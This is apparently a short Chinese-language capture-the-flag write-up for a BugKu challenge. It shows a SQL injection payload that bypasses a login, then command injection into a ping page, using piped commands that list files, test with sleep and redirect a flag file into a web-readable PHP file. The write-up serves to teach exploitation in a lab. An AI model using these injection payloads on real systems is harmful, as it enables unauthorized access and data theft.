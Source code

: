 ### 输出重定向绕过无回显

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67bc0d3bd0e0a243d4033c98.png)

打开页面是一个登录框

![](https://pic1.imgdb.cn/item/67bc0ea8d0e0a243d4033d2e.png)

在 BurpSuite 中抓包发现有 tip

![](https://pic1.imgdb.cn/item/67bc0ec8d0e0a243d4033d4c.png)

解码是后端 SQL 语句

显示如果密码等于它的 md5 值则登陆成功

![](https://pic1.imgdb.cn/item/67bc0eecd0e0a243d4033d57.png)

构造 payload

```
' union select 1,md5(123)#&password=123
```

登录进去是一个 Ping 程序

![](https://pic1.imgdb.cn/item/67bc0f22d0e0a243d4033d65.png)

127.0.0.1|ls / 没有回显

127.0.0.1|sleep 5 有延迟说明命令执行了，但是输出可能被过滤了

127.0.0.1|cat /flag>1.php 输出重定向

![](https://pic1.imgdb.cn/item/67bc0fadd0e0a243d4033daf.png)
